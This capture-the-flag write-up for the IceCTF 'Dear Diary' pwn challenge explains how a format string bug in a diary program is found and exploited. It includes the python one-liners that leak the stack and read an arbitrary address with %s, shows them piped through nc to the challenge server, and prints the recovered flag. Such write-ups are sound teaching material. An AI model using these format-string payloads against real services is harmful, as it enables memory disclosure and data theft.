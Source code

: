 #Dear Diary

**Category:** Pwn
**Points:** 60
**Description:**

I don't have the official verbiage for the challenge.  Essentially you are provided the following binary and told it is being run at nc diary.vuln.icec.tf 6501.

[deardiary](./deardiary)

##Write-up
Initially we run the binary and see what kind of functionality exists within it.

```
root@kali:~# ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: Hello World!

1. add entry
2. print latest entry
3. quit
> 2
Hello World!

1. add entry
2. print latest entry
3. quit
> 3
```

Ok, looks pretty simple.  We supply some data and we can request that this data is then printed back out us.  Let's try a format string and see what it does.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*10+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf755b7b6.f76cf000.ffa00f98.ffa02398.00000000.0000000a.4eedee00.00000000.00000000.ffa023a8.

1. add entry
2. print latest entry
3. quit
```

Well, it definitely looks like we are dealing with a format string issue as we are dumping memory out. Also, note that the command I am using along with the format string sytax is setup to move through the menu of the binary by itself.  It lets me write a payload, read the payload back, and exit the program without any interaction.  Now, let's dump a little more and see if we can see our "AAAA"s.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*20+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf75df7b6.f7753000.ff8cab88.ff8cbf88.00000000.0000000a.ea2b0000.00000000.00000000.ff8cbf98.0804888c.ff8cab88.00000004.f7753c20.00000000.00000000.00000001.41414141.78383025.3830252e.

1. add entry
2. print latest entry
3. quit
```

There we go, it looks as if our input was read back off the stack in the 18th position.  Now we need to figure out what we can do.  Let's take a look at the binary and see if there is a good memory location to mess with.

```asm
             flag:
0804863d         push       ebp                                                 ; XREF=main+27
0804863e         mov        ebp, esp
08048640         sub        esp, 0x28
08048643         mov        eax, dword [gs:0x14]
08048649         mov        dword [ss:ebp+var_C], eax
0804864c         xor        eax, eax
0804864e         mov        dword [ss:esp+0x28+var_24], 0x0                     ; argument "oflag" for method j_open
08048656         mov        dword [ss:esp+0x28+var_28], 0x8048940               ; "./flag.txt", argument "path" for method j_open
0804865d         call       j_open
08048662         mov        dword [ss:ebp+var_10], eax
08048665         mov        dword [ss:esp+0x28+var_20], 0x100                   ; argument "nbyte" for method j_read
0804866d         mov        dword [ss:esp+0x28+var_24], 0x804a0a0               ; argument "buf" for method j_read
08048675         mov        eax, dword [ss:ebp+var_10]
08048678         mov        dword [ss:esp+0x28+var_28], eax                     ; argument "fildes" for method j_read
0804867b         call       j_read
08048680         mov        eax, dword [ss:ebp+var_C]
08048683         xor        eax, dword [gs:0x14]
0804868a         je         0x8048691

0804868c         call       j___stack_chk_fail

08048691         leave                                                          ; XREF=flag+77
08048692         ret        
                        ; endp
```

It looks as though the flag is on the server and being read in and saved into a buffer at ```0x804a0a0```.  There is a good paper on [exploiting format string vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) that has a section dedicated to viewing memory at an arbitrary location.  Let's try to implement that.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f763d7b6.f77b1000.ffdca6b8.ffdcbab8.00000000.0000000a.43679600.00000000.00000000.ffdcbac8.0804888c.ffdca6b8.00000004.f77b1c20.00000000.00000000.00000001.Local FLAG


1. add entry
2. print latest entry
3. quit
```

Running it locally gives us a test flag that we setup, so we should be able to go straight to the server and get the flag.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f7e57836.f7fce000.ffffc898.ffffdc98.00000000.0000000a.3ab59b00.00000000.00000000.ffffdca8.0804888c.ffffc898.00000004.f7fcec20.00000000.00000000.00000001.IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```

Perfect, our flag is ```IceCTF{this_thing_is_just_sitting_here}```.
